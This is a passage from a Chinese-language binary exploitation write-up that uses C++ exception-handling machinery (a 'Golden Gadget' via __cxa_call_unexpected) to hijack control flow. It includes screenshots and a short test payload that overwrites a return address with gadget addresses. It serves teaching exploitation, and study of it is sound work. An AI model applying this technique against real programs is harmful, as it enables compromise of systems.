 首先找到`__cxa_call_unexpected()`函数，以及对应 try 块起始地址`0x402df0`

[![](assets/1701606796-b0dbed84fd5757d11d1fdb91b845c2a2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103154442-d975faac-7a1c-1.png)

> 由于我是用的是 ubuntu22.04，libc 和 stdlibc++ 的版本应该与 paper 中有所差距，实际**Gloden Gadget**的部分也会更复杂一些，所以需要不断调试更改栈内容，设置合适的局部变量，防止程序在运行过程中 crash 掉。

为了方便查看不同的栈偏移在局部变量的作用，我将填充内容做以区分。选择任意一个 rsp+8 且能设置 r12 寄存器条目，将 ret 地址覆盖为该内容，将栈内容存入寄存器，最后接上**Golden Gadget**的 try 块地址用于调用指针

[![](assets/1701606796-f6cf1b1a6650ba8d0259ec6c89375841.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103154455-e1739dcc-7a1c-1.png)

为了提高调试时局部变量的辨识度，测试 payload 构造如下

```bash
payload = b'a'*8
payload += b'b'*8
payload += b'c'*8
payload += b'd'*8
payload += b'e'*8
payload += b'f'*8
payload += b'g'*8
payload += p64(0x004032a4+1)
payload += p64(0x402df0+1)
io.send(payload)
```

在调用到**Gloden Gadget**时，我们已经可以看到寄存器的值被更改为了栈上的内容
